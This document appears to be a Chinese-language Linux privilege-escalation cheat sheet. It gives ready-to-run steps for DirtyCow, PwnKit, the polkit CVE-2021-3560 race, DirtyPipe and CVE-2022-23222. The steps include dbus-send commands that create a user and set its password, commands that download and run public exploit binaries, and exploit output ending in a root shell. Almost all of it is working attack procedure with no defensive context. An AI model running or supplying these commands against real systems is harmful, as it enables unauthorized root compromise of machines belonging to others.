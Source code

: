  ##### Linux脏牛提权
	https://github.com/FireFart/dirtycow
	$gcc -pthread dirty.c -o dirty –lcrypt
	$./dirty passwd 
	生成账户密码
	https://github.com/gbonacini/CVE-2016-5195
	$make
	$./dcow -s
 ##### CVE-2021-4034
	https://github.com/berdav/CVE-2021-4034
	只需执行make，./cve-2021-4034然后get root shell
 ##### CVE-2021-3560
  	检查执行命令所需时间
	>time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:ignite string:"ignite user" int32:1
	提前结束(多运行几次)
	>dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:ignite string:"ignite user" int32:1 & sleep 0.0035s ; kill $!
	生成密码
	>openssl passwd -5 ignite@123
	执行(多运行几次)
	>dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1001 org.freedesktop.Accounts.User.SetPassword string:'$5$F2KwiUlWkn2i8DC.$rw9AOjKsmK83DhncqehVUzOKVqq.ArwS2G8eQKVntv7' string:BestHackingTutorials & sleep 0.0035s ; kill $!
	>su ignite
	>password: ignite@123
	>whoami
	>id
	>sudo bash获取root
 ##### CVE-2022-0847
  	>wget https://github.com/liamg/traitor/releases/download/v0.0.14/traitor-amd64
	>./traitor-amd64 --exploit kernel:CVE-2022-0847
	>whoami
	>id
	或
	>git clone https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit.git
	>cd CVE-2022-0847-DirtyPipe-Exploit
	>./compile.sh
	>./exploit
 ##### CVE-2022-23222
  	https://github.com/tr3ee/CVE-2022-23222
```bash
$ make
cc -I include -static -w -o exploit exploit.c
$ ./exploit 
[*] phase(1/8) 'create bpf map(s)' running
[+] phase(1/8) 'create bpf map(s)' done
[*] phase(2/8) 'do some leak' running
[+] phase(2/8) 'do some leak' done
[*] phase(3/8) 'prepare arbitrary rw' running
[+] phase(3/8) 'prepare arbitrary rw' done
[*] phase(4/8) 'spawn processes' running
[+] phase(4/8) 'spawn processes' done
[*] phase(5/8) 'find cred (slow)' running
[+] phase(5/8) 'find cred (slow)' done
[*] phase(6/8) 'overwrite cred' running
[+] phase(6/8) 'overwrite cred' done
[*] phase(7/8) 'spawn root shell' running
[+] Enjoy root!
# id
uid=0(root) gid=0(root) groups=65534(nobody)
# exit
[+] phase(7/8) 'spawn root shell' done
[*] phase(8/8) 'clean up the mess' running
[+] phase(8/8) 'clean up the mess' done
```